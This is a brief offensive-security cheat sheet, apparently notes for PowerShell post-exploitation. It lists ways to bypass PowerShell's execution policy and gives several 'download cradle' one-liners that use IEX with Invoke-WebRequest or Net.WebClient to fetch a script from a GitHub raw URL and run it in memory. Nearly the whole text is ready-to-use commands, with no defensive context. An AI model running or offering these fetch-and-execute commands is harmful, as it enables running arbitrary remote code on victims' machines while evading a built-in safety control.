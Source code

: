 # Bypass EP
Start PowerShell from cmd.exe:
powershell.exe -ep bypass

OR If already running-

Set-ExecutionPolicy -Scope Process -ExecutionPolicy Bypass

Set-ExecutionPolicy -Scope Process -ExecutionPolicy Restricted

$Env:PSExecutionPolicyPreference = 'Bypass'


# Run Script cradles

iex (iwr "https://raw.githubusercontent.com/conma293/mvp/main/1.ps1")

IEX (Invoke-WebRequest -Uri "https://raw.githubusercontent.com/conma293/mvp/main/1.ps1").Content

iex ((Invoke-WebRequest -Uri "https://raw.githubusercontent.com/conma293/mvp/main/1.ps1").Content)

IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/conma293/mvp/main/1.ps1')

IEX ((New-Object System.Net.webclient).DownloadString('https://raw.githubusercontent.com/conma293/mvp/main/1.ps1')).content



# Download Cradle and general good refs
https://github.com/In3x0rabl3/OSEP/blob/main/osep_reference.md#download-cradle
